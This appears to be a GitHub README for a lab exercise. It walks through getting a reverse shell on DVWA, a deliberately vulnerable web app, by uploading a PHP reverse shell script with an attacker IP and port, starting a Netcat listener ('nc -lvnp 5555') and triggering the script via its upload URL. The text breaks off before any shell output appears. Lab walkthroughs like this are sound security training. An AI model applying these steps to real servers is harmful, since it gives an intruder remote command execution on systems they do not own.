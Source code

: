 # DVWA Reverse Shell with Netcat and PHP Reverse Shell

This project demonstrates how to perform a reverse shell attack on the DVWA (Damn Vulnerable Web Application) using Netcat and a PHP reverse shell script.

---

## Requirements

- Kali Linux with Netcat installed  
- A DVWA server accessible on your network  
- Your Kali Linux IP address: `192.168.237.130`  
- A port to listen on: `5555`

---

## How It Works

You start a Netcat listener on your Kali machine, upload the PHP reverse shell script (`php-reverse-shell.php`) to the DVWA file upload feature, and then execute it via a web browser. This triggers a reverse shell connection back to your Kali machine, where you get remote command execution on the DVWA server under the `www-data` user.

---

## Usage Instructions
Edit the `php-reverse-shell.php` file to replace the IP and port with your Kali machine details:

```php
$ip = '192.168.237.130';  // Your Kali Linux IP address
$port = 5555;             // Port to listen on


## Start the Netcat listener on Kali:

nc -lvnp 5555

Upload the php-reverse-shell.php file to DVWA using the file upload functionality. You should see a confirmation message similar to:

Vulnerability: File Upload
Choose an image to upload:

../../hackable/uploads/php-reverse-shell.php successfully uploaded!

--- 
Trigger the reverse shell by accessing the uploaded PHP script via your browser:

http://192.168.237.131/dvwa/hackable/uploads/php-reverse-shell.php

---

Once triggered, your Kali terminal running Netcat will show output like this:

─$ nc -lvp 5555
